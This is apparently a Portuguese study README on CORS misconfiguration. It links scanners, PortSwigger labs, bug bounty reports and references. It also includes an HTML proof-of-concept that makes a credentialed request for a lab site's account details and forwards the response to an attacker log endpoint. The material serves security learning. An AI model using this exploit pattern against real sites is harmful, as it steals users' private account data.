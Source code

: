 # CORS Misconfiguration - Fórum Técnico de Privacidade

## O que é o CORS?

O padrão CORS (Cross-origin resource sharing) é necessário porque permite que os servidores especifiquem quem pode acessar seus ativos e quais métodos de solicitação HTTP são permitidos a partir de recursos externos.

Uma política de mesma origem requer que tanto o servidor que solicita um recurso quanto o servidor onde o recurso está localizado usem o mesmo protocolo (http://), nome de domínio (internal-web.com) e a mesma porta (80). Então, se o servidor forçar a política de mesma origem, apenas as páginas da web do mesmo domínio e porta poderão acessar os recursos.

O exemplo que foi utilizado foi o basic origin reflection que pega os dados de um site e redireciona para o site do atacante, com isso os dados pessoais ou sensiveis vão para um servidor diferente do original de forma que se reflete tudo que é acessado por um link especifico.

[Apresentação 06/04/23](https://docs.google.com/presentation/d/1w9SqP6dUJggXe67ZAZvJ8MmZoUFOkiP0_AwaTiurOLA/edit?usp=sharing)

## Ferramentas legais para ser utilizadas 🔧

* [CORS Scanner](https://github.com/chenjj/CORScanner)
* [Nuclei](https://github.com/projectdiscovery/nuclei)
* [Corsy - CORS Misconfiguration Scanner](https://github.com/s0md3v/Corsy)

## HTML utilizado

```
<html>
    <body>
        <h1>Hello World!</h1>
        <script>
            var xhr = new XMLHttpRequest();
            var url = "https://id-lab.web-security-academy.net"
            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE){
                    fetch("/log?key=" + xhr.responseText)
                }
            }

            xhr.open('GET', url + "/accountDetails", true);
            xhr.withCredentials = true;
            xhr.send(null)
        </script>
    </body>
</html>
```

## Labs para estudo 🔬

* [CORS vulnerability with basic origin reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)
* [CORS vulnerability with trusted null origin](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)
* [CORS vulnerability with trusted insecure protocols](https://portswigger.net/web-security/cors/lab-breaking-https-attack)
* [CORS vulnerability with internal network pivot attack](https://portswigger.net/web-security/cors/lab-internal-network-pivot-attack)

## Bug Bounty reports 📈

* [CORS Misconfiguration on www.zomato.com - James Kettle (albinowax)](https://hackerone.com/reports/168574)
* [CORS misconfig | Account Takeover - niche.co - Rohan (nahoragg)](https://hackerone.com/reports/426147)
* [Cross-origin resource sharing misconfig | steal user information - bughunterboy (bughunterboy)](https://hackerone.com/reports/235200)
* [CORS Misconfiguration leading to Private Information Disclosure - sandh0t (sandh0t)](https://hackerone.com/reports/430249)
* [[██████] Cross-origin resource sharing misconfiguration (CORS) - Vadim (jarvis7)](https://hackerone.com/reports/470298)

## References

* [Think Outside the Scope: Advanced CORS Exploitation Techniques - @Sandh0t - May 14 2019](https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397)
* [Exploiting CORS misconfigurations for Bitcoins and bounties - James Kettle | 14 October 2016](https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)
* [Exploiting Misconfigured CORS (Cross Origin Resource Sharing) - Geekboy - DECEMBER 16, 2016](https://www.geekboy.ninja/blog/exploiting-misconfigured-cors-cross-origin-resource-sharing/)
* [Advanced CORS Exploitation Techniques - Corben Leo - June 16, 2018](https://www.corben.io/advanced-cors-techniques/)
* [PortSwigger Web Security Academy: CORS](https://portswigger.net/web-security/cors)
* [CORS Misconfigurations Explained - Detectify Blog](https://blog.detectify.com/2018/04/26/cors-misconfigurations-explained/)
* [CORS Misconfiguration PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CORS%20Misconfiguration/README.md#exploitation)
